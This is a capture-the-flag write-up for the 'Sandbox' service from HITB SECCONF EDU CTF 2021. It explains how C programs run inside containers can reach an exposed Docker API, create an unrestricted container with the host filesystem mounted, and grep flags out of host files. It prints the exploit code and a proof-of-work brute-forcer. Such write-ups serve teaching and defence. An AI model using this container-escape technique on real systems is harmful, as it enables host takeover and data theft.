

# Writeup for the Sandbox service from HITB SECCONF EDU CTF 2021

## About the service

Service Sandbox provides a very simple functionality: it allows to run a small C program with passed input and get it's output.

Service has HTTP API which can be observed on http://<IP>:8000/docs:



Endpoints `/users` and `/login` are intuitive.

Endpoints `/programs` allow to upload a C program and list available programs available for running.

Running a program is CPU bound task so you we need to protect the service from the flood. It's the reason why proof-of-work has been added to the service.
First, you need to send POST request to `/programs/{program_id}/challenge`, receive challenge and solve it (it takes ~60 seconds in one core).
After that you are able to run a program: just send a POST request to `/programs/{program_id}/run` with solved challenge and input for your program. 

Service is written on Python, uses FastAPI as a framework and PostgreSQL as a database. It runs programs inside of docker containers, which are located
in the separate virtual machine (VirtualBox).

## Structure of the service

Service has three parts, which can be found at `/home/sandbox` of the vulnerable image.

First part is Python application located in `src` subfolder.
Second part is VirtualBox machine, created from the image located in `sandbox_vm_image` subfolder. VirtualBox machine doesn't have internet connection, only python application can connect to it (
to 22/tcp — SSH, and to 2375/tcp — Docker)
And third part is Docker image located in `sandbox_docker_image`. Containers created from this image are running inside of VirtualBox machine.
You can investigate internals of Docker image, because it's just a .tar.gz archive.

## Vulnerability

VirtualBox machine has docker socket which accepts connections from the Python service. It's builtin feature of the Docker daemon.
But if you allow to connect to the Docket socket, you should be 100% sure that only legit users can do it. 

In our case we can connect to the Docker socket from the Docker container, so it's not safe! We can run a program which connects to the Docker socket, creates a new container, mount
host file system, run some code in privileged mode and so on... It's a big security hole!

We have only two problems.

1. We need to connect to the Docker socket from C program without any libraries installed. Fortunately, Docker socket has HTTP API. Example of program connecting to this API and creating some containers
could be found at [sploit folder](../sploits/sandbox/program_template.c). Some piece of code from there:

```(c)
void create_hacking_container() {
    char result[BUFFER_SIZE];

    // 1. Create a container
    char* shell_command = "while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done";
    char body[BUFFER_SIZE];
    sprintf(body, "{\"Image\": \"sandbox\", \"EntryPoint\": \"/bin/sh\", \"Cmd\": [\"-c\", \"%s\"], \"HostConfig\": { \"Binds\": [\"/:/host\"] }}", shell_command);
    send_http_request_post(docker_host, DOCKER_PORT, "/containers/create", body, result);
    printf("%s", result);

    char container_id[DOCKER_CONTAINER_ID_LENGTH + 1];
    extract_json_field(result, "Id", container_id);

    printf("Container id: %s\n", container_id);

    // 2. Run the container
    char run_container_url[MAX_URL_LENGTH + 1];
    snprintf(run_container_url, MAX_URL_LENGTH, "/containers/%s/start", container_id);
    send_http_request_post(docker_host, DOCKER_PORT, run_container_url, "{}", result);
    printf("%s", result);

    printf("FOR EXPLOIT:\n%s\n", container_id);
}
```

This part of code creates a fresh Docker container (without any limits), mounts host's root directory / to /host and run following shell command with flag grepping (programs with flags are stored in `/tmp/*/program.c` for some time):

```(bash)
while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done
```

After that program runs this container and prints to stdout the id of this container. After some time we can send another program which connects to Docker socket and read logs (stdout and stderr)
of this container by it's id. Logs should contains greppped flags:

```(c)
void get_hacking_container_output(const char* container_id) {
    char result[BUFFER_SIZE];

    char get_container_logs_url[MAX_URL_LENGTH + 1];
    snprintf(get_container_logs_url, MAX_URL_LENGTH, "/containers/%s/logs?stdout=true&stderr=true&tail=20", container_id);
    int len = send_http_request_get(docker_host, DOCKER_PORT, get_container_logs_url, result);

    print_hex_buffer(result, len);
}

```

2. We need to pass the proof-of-work challenge to run a program. There is no other way to brute force it. I've done it in C++:

```(cpp)
#include <openssl/sha.h>

using namespace std;

string sha256(const string& str) {
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, str.c_str(), str.size());
    SHA256_Final(hash, &sha256);
    stringstream ss;
    for(int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        ss << hex << setw(2) << setfill('0') << (int)hash[i];
    }
    return ss.str();
}

int main() {
    ... // read the prefix

    for (unsigned int suffix = 0; ; suffix++) {
        char buffer[17];
        sprintf(buffer, "%08x%08x", prefix, suffix);
        string result = sha256(buffer);
        if (result.substr(0, 6) == "000000") {
            cout << prefix << " " << suffix << " " << buffer << " " << result << endl;
            break;
        }
    }

    return 0;
}
```


